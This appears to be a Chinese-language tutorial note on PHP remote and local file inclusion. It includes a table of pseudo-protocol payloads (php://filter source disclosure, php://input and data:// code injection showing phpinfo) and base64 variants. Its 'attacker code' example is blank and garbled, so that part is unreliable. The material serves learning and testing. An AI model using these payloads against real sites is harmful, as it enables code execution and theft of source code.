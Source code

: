远程文件包含（RFI）



`allow_url_fopen`：为ON时，能读取远程文件，例如`file_get_contents()` 就能读取远程文件

`allow_rul_include` ：为ON时，就可使用include和require等方式包含远程文件



当上述两个options都为on时，就可以包含远程文件



使用案例：

攻击者php代码：

记得关防火墙，现在电脑写下面那句话都会弹防火墙：

```
<?php                                                            ?>")?>
```

成功写入包含的话





利用方式：

伪协议包含：

| 协议              | allow_url_open | allow_url_include | 用法                                                         |
| ----------------- | -------------- | ----------------- | ------------------------------------------------------------ |
| file://           | off/on         | off/on            | ?file=file://D:/soft/phpStudy/WWW/phpcode.txt                |
| php://filter      | off/on         | off/on            | ?file=php://filter/read=convert.base64-encode/resource=./index.php |
| php://input       | off/on         | **on**            | ?file=php://input                            【POST DATA】 \<?php phpinfo();?> |
| zip://            | off/on         | off/on            | ?file=zip://D:/soft/phpStudy/WWW/file.zip%23phpcode.txt      |
| compress.bzip2:// | off/on         | off/on            | ?file=compress.bzip2://./file.bz2                            |
| compress.zlib://  | off/on         | off/on            | ?file=compress.zlib://./file.gz                              |
| data://           | **on**         | **on**            | ?file=data://text/plain,<?php phpinfo();>                    |





data伪协议用法：

?file=data://text/plain,<?php phpinfo();>

?file=data://text/plain;base64,PD9waHAgcGhwaW5mbygpPz4=

?file=data://text/plain,<?php phpinfo();?\>

?file=data:text/plain;base64,PD9waHAgcGhwaW5mbygpPz4=



php://filter元封装器，设计用于数据流打开时地筛选过滤应用
